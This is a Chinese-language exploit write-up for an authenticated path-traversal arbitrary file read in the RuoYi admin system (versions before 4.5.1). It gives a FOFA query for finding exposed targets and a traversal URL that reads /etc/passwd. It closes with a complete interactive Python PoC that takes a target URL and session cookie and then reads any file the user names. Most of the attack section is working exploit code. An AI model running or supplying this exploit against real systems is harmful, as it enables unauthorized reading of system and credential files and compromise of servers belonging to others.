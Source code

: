 # 若依(RuoYi)管理系统 后台任意文件读取

## 漏洞描述

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件

## 漏洞影响

> [!NOTE]
>
> RuoYi < v4.5.1

## FOFA

> [!NOTE]
>
> app="若依-管理系统"

## 漏洞复现

登录后台后访问 Url

https://xxx.xxx.xxx.xxx/common/download/resource?resource=/profile/../../../../etc/passwd

![](image/ruoyi-1.png)

访问后会下载文件 **/etc/passwd**

![](image/ruoyi-2.png)

可以使用Burp抓包改变 **/etc/passwd** 为其他文件路径获取敏感信息

![](image/ruoyi-4.png)

![](image/ruoyi-5.png)

在新版本的修复中添加了过滤

![](image/ruoyi-7.png)

## 漏洞利用POC

> [!NOTE]
>
> POC使用需要后台的Cookie,读取的文件路径应为根路径

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: RuoYi < v4.5.1                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> JSESSIONID=xxxxxx                                   \033[0m')
    print('+  \033[36mFile        >>> /etc/passwd                                         \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":Cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}//common/download/resource?resource=/profile/../../../../etc/passwd \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Filename = input("\033[35mFile >>> \033[0m")
                if Filename == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, Cookie, Filename)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie, Filename):
    vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../{}".format(Filename)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":Cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = str(input("\033[35mCookie >>> \033[0m"))
    POC_1(target_url, Cookie)
```

![](image/ruoyi-6.png)



